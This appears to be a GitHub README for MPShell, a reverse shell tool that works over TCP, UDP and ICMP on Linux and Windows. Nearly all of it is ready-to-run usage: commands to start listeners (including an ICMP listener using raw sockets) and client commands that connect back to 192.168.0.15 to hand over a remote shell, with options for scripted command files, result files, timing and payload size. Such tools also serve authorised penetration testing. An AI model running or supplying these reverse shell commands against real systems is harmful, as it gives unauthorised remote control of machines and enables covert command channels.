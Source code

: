 # MPShell
Multi-protocol (TCP, UDP, ICMP) multi-OS reverse shell

- supports TCP, UDP & ICMP protocols
- works on Linux & Windows
- supports command input from a file and result output to a file

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/MPShell/Images/tcp_server.png)

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/MPShell/Images/icmp_server_files.png)


&nbsp;

**Starting a TCP listener**

```./MPListener --protocol=tcp --port=8080```

To start a TCP listener that accepts a list of commands that will be executed when the client connects from a file (one command per line) and writes the result to a file, `-command-file` & `--result-file` options are used. After all the commands have been executed, input falls back to stdin. Output can then also be redirected to stdout by using `$close-output` command.

```./MPListener --protocol=tcp --port=8080 --command-file=/path/commands.txt --result-file=/path/result.txt```

&nbsp;

**Starting a UDP listener**

```
./MPListener --protocol=udp --port=8080
./MPListener --protocol=udp --port=8080 --command-file=/path/commands.txt --result-file=/path/result.txt
```

&nbsp;

**Starting a ICMP listener**

To start a ICMP listener, root is required, given that raw sockets are used, and automatic ICMP kernel replies need to be disabled. Root is only required on the server side for ICMP protocol. On the client side non-raw ICMP sockets are used `socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP)` if the user is allowed to used them based on the contents of `/proc/sys/net/ipv4/ping_group_range` file.

```
./MPListener --protocol=icmp
./MPListener --protocol=icmp --command-file=/path/commands.txt --result-file=/path/result.txt
```

&nbsp;

**Starting a reverse shell**

```
.\MPShell --protocol=tcp --host=192.168.0.15 --port=8080
.\MPShell --protocol=udp --host=192.168.0.15 --port=8080
.\MPShell --protocol=icmp --host=192.168.0.15
```

&nbsp;

**Setting additional options for a reverse shell**

The following line set's the read timeout to 1 second, sleep between packets (when there is no payload to send) to 500 ms, and the payload size to 1000 bytes.

```.\MPShell --protocol=udp --host=192.168.0.15 --port=8080 --timeout=2 --sleep=500 --payload-size=1000```
